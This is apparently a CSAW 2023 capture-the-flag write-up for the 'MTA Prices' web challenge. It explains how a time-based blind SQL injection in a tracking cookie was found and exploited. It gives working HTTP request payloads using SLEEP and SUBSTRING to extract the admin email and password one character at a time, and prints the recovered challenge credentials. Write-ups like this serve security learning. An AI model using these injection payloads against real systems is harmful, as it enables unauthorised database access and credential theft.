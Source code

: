# CSAW 2023

# MTA Prices

> Time-based SQli

## How to identify

You can leverage the `trackID` in the cookie to manipulate the **session** content, which the server sends back in the response header.

Also, modifying the `trackID` to an unintended value causes the email field in the **session** to display an "**Error**" message.

Importantly, this presents an opportunity to manipulate user input to create anomalies.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-dcfcaf77c3e0c7483838aa34d2b5bfef.png)

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-5427e8f851f0891eb0fb679d9ddae823.png)

## Proof of Concept

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBk'+sleep(5)+'O4Fp2KuGsB;
Connection: keep-alive
```

The email showing no error means the SQL commands have been successfully executed.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-26eab2848c1a5e25ca88e0f7fbf4a59d.png)

## Exploitation

Replace [ARG1](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/1-20.list) and [ARG2](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/allprintable.list) with your dictionaries…

> ARG1: Numbers ranging from 0 to 20 
>
> ARG2: All printable characters, ASCII 32 to 126

**Get admin’s email:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(email,${ARG1},1) from users where privilege LIKE 'admin%' limit 0,1)=binary('${ARG2}'),SLEEP(10),'a'))+';
Connection: keep-alive
```

**Get admin’s password:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(password,${ARG1},1) from users where email='emily.brown@mta.com' limit 0,1)=binary('${ARG2}'),SLEEP(1),'a'))+';
Connection: keep-alive

```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-0cf51a4f002f680bbc21430613de9582.png)

```php
mail - > emily.brown@mta.com
password -> p#2r@5ml8q7v!9x$1
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-06-02-59382736bafdc07265d1f28add506c0f.png)

# Reference

[https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#extract-database-with-information_schema](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

[https://superboy-zjc.github.io/2020/08/05/阶段四、Web渗透测试/7、SQL注入/#二、SQL注入的注入点](https://superboy-zjc.github.io/2020/08/05/%E9%98%B6%E6%AE%B5%E5%9B%9B%E3%80%81Web%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/7%E3%80%81SQL%E6%B3%A8%E5%85%A5/#%E4%BA%8C%E3%80%81SQL%E6%B3%A8%E5%85%A5%E7%9A%84%E6%B3%A8%E5%85%A5%E7%82%B9)